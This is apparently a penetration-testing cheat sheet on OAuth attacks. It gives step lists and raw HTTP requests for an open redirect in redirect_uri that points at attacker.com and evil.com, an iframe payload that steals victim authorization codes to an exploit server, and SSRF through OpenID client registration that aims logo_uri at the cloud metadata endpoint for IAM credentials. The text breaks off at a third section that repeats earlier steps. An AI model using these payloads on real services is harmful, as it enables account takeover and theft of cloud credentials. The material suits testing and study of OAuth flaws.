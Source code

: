 ```jsx
    1. login with social account then logout and try login again
    2. notice that you are redirected without any credentials
    3. notice "redirect_uri" vulnerable to open redirect
    ----------------------
    	GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13
    	&redirect_uri=https://attacker.com/ HTTP/1.1
    	Host: oauth.lab
    ----------------
    	GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13
    	&redirect_uri=https://facebook.com/?u=http://evil.com&h=e8989909s HTTP/1.1
    	Host: example.com
    --------------------------------
    4. notice there are /callback?code=auth-callback-code
    5. go to your exploit server and try:
    <iframe src="<https://TARGET-OAUTH-SERVER.net/auth?client_id=CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER.net&response_type=code&scope=openid%20profile%20email>"></iframe>
    
    6. steal the victim code and make request to
    <https://YOUR-Target/oauth-callback?code=STOLEN-CODE>
    
    # References 
    <https://hackerone.com/reports/665651> > Stealing Users OAuth Tokens through redirect_uri parameter
    ```
    
- **SSRF via OpenID dynamic client registration**
    
    ```jsx
    1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>
    2. Notice where the client registration endpoint is located example:"/reg"
    3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"
    ----------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ]
    }
    ---------------------------------------------
    4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater
    5. Go back to "POST /reg" request,Add the "logo_uri" ,test if it's vulnerable to ssrf
    -------------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ], "logo_uri" :
    "<https://BURP-COLLABORATOR-PAYLOAD>"
    }
    -------------------------------------------------
    6. Try Read meta data files like
       "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
    ```
    
- **Stealing OAuth access tokens via a proxy page**
    
    ```jsx
    1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>
    2. Notice where the client registration endpoint is located example:"/reg"
```